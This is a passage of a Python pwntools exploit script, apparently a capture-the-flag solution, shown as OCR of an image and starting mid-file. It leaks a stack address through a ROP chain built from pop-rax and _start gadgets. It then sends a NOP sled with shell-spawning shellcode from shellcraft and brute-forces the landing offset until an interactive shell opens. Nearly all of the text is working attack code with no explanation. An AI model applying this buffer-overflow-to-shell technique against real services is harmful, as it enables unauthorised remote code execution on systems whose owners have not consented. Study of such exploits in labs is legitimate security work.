 ```python
    return r


def main():
    i = 0
    cond = True
    while cond:
        try:
            r = conn(3)

            _start = 0x43000
            gadgetPopRax = 0x43018


            shell = asm(shellcraft.sh())

            shellcode = b"\x90"*(0x106 - 16 - len(shell) - 1)
            print("AMOUNT OF NOPs: ", len(shellcode))
            shellcode += shell


            payload = b"A"*8 + p64(gadgetPopRax) + p64(1) + p64(_start) + p64(gadgetPopRax) + p64(0) + p64(_start)

            r.send(payload)

            output = r.recv()
            print(output[8:])
            output = output[32:]
            leakStack = output[:8][::-1]
            print(leakStack.hex())
            leakStack = int(leakStack.hex(), 16)
            print(hex(leakStack))


            payload = b"A"*8 + p64(leakStack + 0x300 + 100*i) + shellcode


            sleep(0.4)

            payload = payload.ljust(0x106, b"\x00")

            r.send(payload)


            r.sendline(b"ls /")
            r.recv()
            print("This iteration:", i)
            cond = False

        except EOFError:
            print("NOT This iteration:", i)
            i *= -1
            if i >= 0:
                i += 1
            r.close()



    r.interactive()

if __name__ == "__main__":
    main()
```